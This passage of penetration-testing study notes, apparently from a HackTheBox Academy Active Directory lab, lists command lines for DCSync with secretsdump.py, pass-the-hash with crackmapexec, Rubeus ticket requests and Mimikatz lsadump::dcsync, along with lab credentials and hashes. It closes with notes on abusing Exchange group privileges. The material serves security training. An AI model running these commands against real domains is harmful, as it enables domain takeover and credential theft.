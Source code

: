 6. Use Domain Controller TGT to DCSync
```
TeneBrae93@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-
pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

7. Confirm Admin Access to the Domain Controller
```
TeneBrae93@htb[/htb]$ crackmapexec smb 172.16.5.5 -u administrator -H
88ad09182de639ccc6579eb0849751cf
```

8. (Alternative) Submitting a TGS Request for Ourselves Using getnthash.py
```
TeneBrae93@htb[/htb]$ python /opt/PKINITtools/getnthash.py -key
70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275
INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

9. (Alternative) Using Domain Controller NTLM Hash to DCSync
```
TeneBrae93@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY -EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```



On Windows (after step 3 of obtaining base64 certificate via ntlmrelayx.py)

1. Request TGT and Perform PTT with DC01$ Machine Account
```
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$
/certificate:<full_base64_string>
```

2. Use klist to confirm ticket is in memory
![[Pasted image 20230103185713.png]]

3. Perform DCSync with Mimikatz
```
PS C:\Tools\mimikatz\x64>
.\mimikatz.exe
lsadump::dcsync
/user:inlanefreight\krbtgt
```

---

<h2>Miscellaneous Misconfigurations</h2>

For the portions of this section that require interaction from a Linux host, you can open a PowerShell console on MS01 and SSH to 172.16.5.225 with the credentials htb-student:HTB_@cademy_stdnt!.

Exchange Related Group Membership
- A default installation of Microsoft Exchange within an AD environment (with no split-administration model) opens up many attack vectors, as Exchange is often granted considerable privileges within the domain (via users, groups, and ACLs).
- The group Exchange Windows Permissions is not listed as a protected group, but members are granted the ability to write a DACL to the domain object.
- This can be leveraged to give a user DCSync privileges. An attacker can add accounts to this group by leveraging a DACL misconfiguration (possible) or by leveraging a compromised account that is a member of the Account Operators group.
- Techniques available here -- https://github.com/gdedrouas/Exchange-AD-Privesc
